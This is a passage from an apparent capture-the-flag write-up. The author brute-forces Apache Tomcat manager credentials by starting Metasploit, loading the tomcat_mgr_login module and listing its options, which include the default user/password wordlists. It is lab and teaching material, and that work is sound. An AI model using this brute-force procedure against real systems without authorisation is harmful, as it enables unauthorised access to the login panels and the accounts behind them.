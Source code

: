 The brute force technique was used with Hydra or with Metasploit. The Hydra versiooption didn't work out for me, so I decided to use Metasploit (msfconsole). After pwning this machine I looked for another manual way to brute force the Tomcat credentials and I found one. I have tried this and documente this in this writeup as well. This part is written at the bottem of this writeup.

To start msfconsole I use the **-q** argument to not show that fancy banner of Metasploit.

```bash
┌──(emvee㉿kali)-[~]
└─$ msfconsole -q 

msf6 >
```
In the Hacktricks article I saw the command **use auxiliary/scanner/http/tomcat_mgr_login**  to load the module within Metasploit.
```
msf6 >  use auxiliary/scanner/http/tomcat_mgr_login
```
To see which arguments should be set I use the command **show options**
```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
```